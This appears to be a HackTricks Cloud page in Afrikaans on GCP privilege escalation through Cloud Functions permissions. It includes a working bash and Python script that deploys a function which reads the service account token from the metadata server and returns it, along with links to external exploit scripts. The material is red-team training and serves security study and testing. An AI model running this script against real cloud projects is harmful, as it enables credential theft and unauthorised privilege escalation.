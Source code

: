 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Meer inligting oor Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

'n Aanvaller met hierdie voorregte kan **'n nuwe Cloud Function met arbitrêre (kwaadaardige) kode skep en dit aan 'n Diensrekening toewys**. Dan, lek die Diensrekening token uit die metadata om voorregte na dit te eskaleer.\
Sommige voorregte om die funksie te aktiveer mag benodig word.

Eksploitasieskripte vir hierdie metode kan [hier gevind word](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) en [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) en die voorafgeboude .zip-lêer kan [hier gevind word](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

'n Aanvaller met hierdie voorregte kan **die kode van 'n Funksie wysig en selfs die diensrekening wat aangeheg is, wysig** met die doel om die token te ekfiltreer.

{% hint style="danger" %}
Om cloud funksies te ontplooi, sal jy ook actAs-toestemmings oor die standaard rekenaar diensrekening of oor die diensrekening wat gebruik word om die beeld te bou, benodig.
{% endhint %}

Sommige ekstra voorregte soos `.call` toestemming vir weergawe 1 cloudfunctions of die rol `role/run.invoker` om die funksie te aktiveer mag benodig word.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# If you don't have permissions to change the IAM policy, the "--allow-unauthenticated" will just fail and do nothing

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
Die eksploit-skrip vir hierdie metode kan [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) gevind word.

### `cloudfunctions.functions.sourceCodeSet`

Met hierdie toestemming kan jy 'n **ondertekende URL kry om 'n lêer na 'n funksiebucket op te laai (maar die kode van die funksie sal nie verander nie, jy moet dit steeds opdateer)**
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Nie regtig seker hoe nuttig net hierdie toestemming is vanuit 'n aanvaller se perspektief nie, maar dit is goed om te weet.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Gee jouself enige van die vorige **`.update`** of **`.create`** voorregte om op te skaal.

### `cloudfunctions.functions.update`

Slegs met **`cloudfunctions`** toestemmings, sonder **`iam.serviceAccounts.actAs`** sal jy **nie in staat wees om die funksie op te dateer NIE SO DIT IS NIE 'N GESKIKTE PRIVESC NIE.**

### Emmer Skryf Toestemmings

Jy mag dink dat 'n aanvaller met **skryftoestemmings oor die emmer** waar die Cloud Functions kode gestoor word, in staat sal wees om die **kode te wysig deur** die `function_code.zip` te oorskryf en dan die funksie **arbitraire** kode te laat uitvoer.

{% hint style="success" %}
**Tog, dit is nie waar nie, net om die kode binne die emmer te oorskryf sal nie die kode wat uitgevoer word, wysig nie.**
{% endhint %}

## Verwysings

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
